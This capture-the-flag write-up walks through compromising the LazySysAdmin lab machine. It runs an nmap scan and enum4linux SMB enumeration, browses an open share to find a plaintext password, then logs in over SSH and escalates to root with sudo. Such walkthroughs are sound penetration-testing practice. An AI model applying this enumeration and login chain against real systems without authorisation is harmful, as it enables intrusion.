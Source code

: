 LazyAdmin: 1 write-up


scan host:

nmap -sV -A -sC -p- 192.168.2.90

nmap result:

	PORT     STATE SERVICE     VERSION
	22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
	|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
	|_  256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
	80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
	|_http-generator: Silex v2.2.7
	| http-robots.txt: 4 disallowed entries 
	|_/old/ /test/ /TR2/ /Backnode_files/
	|_http-server-header: Apache/2.4.7 (Ubuntu)
	|_http-title: Backnode
	139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
	445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
	3306/tcp open  mysql       MySQL (unauthorized)
	6667/tcp open  irc         InspIRCd
	| irc-info: 
	|   server: Admin.local
	|   users: 1
	|   servers: 1
	|   chans: 0
	|   lusers: 1
	|   lservers: 0
	|   source ident: nmap
	|   source host: 192.168.2.38
	|_  error: Closing link: (nmap@192.168.2.38) [Client exited]
	Service Info: Host: Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
	| smb-os-discovery: 
	|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
	|   Computer name: lazysysadmin
	|   NetBIOS computer name: LAZYSYSADMIN
	|   Domain name: 
	|   FQDN: lazysysadmin
	|_  System time: 2017-11-01T04:00:05+10:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_smbv2-enabled: Server supports SMBv2 protocol



enum smb: using enum4linux tool (./enum4linux.pl -U 192.168.2.90)

from enum result see a user on the system: togie


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)


also smb shares:


	WARNING: The "syslog" option is deprecated
	Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
	Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

		Sharename       Type      Comment
		---------       ----      -------
		print$          Disk      Printer Drivers
		share$          Disk      Sumshare
		IPC$            IPC       IPC Service (Web server)

		Server               Comment



connect to smb share:


	smbclient //192.168.2.90/share$


see file list:


	smb: \> 
	smb: \> dir
	  .                                   D        0  Tue Aug 15 07:05:52 2017
	  ..                                  D        0  Mon Aug 14 08:34:47 2017
	  wordpress                           D        0  Tue Oct 31 13:49:52 2017
	  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
	  wp                                  D        0  Tue Aug 15 06:51:23 2017
	  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
	  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
	  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
	  apache                              D        0  Mon Aug 14 08:35:19 2017
	  index.html                          N    36072  Sun Aug  6 01:02:15 2017
	  info.php                            N       20  Tue Aug 15 06:55:19 2017
	  test                                D        0  Mon Aug 14 08:35:10 2017
	  old                                 D        0  Mon Aug 14 08:35:13 2017




Open deets.txt in browser: http://192.168.2.90/deets.txt
"
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
"


login to system over ssh with user:togie and password: 12345


togie user in sudories so just execute sudo su to become a root user:


get proof.txt in root:


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/lazysysadmin-1/proof.png)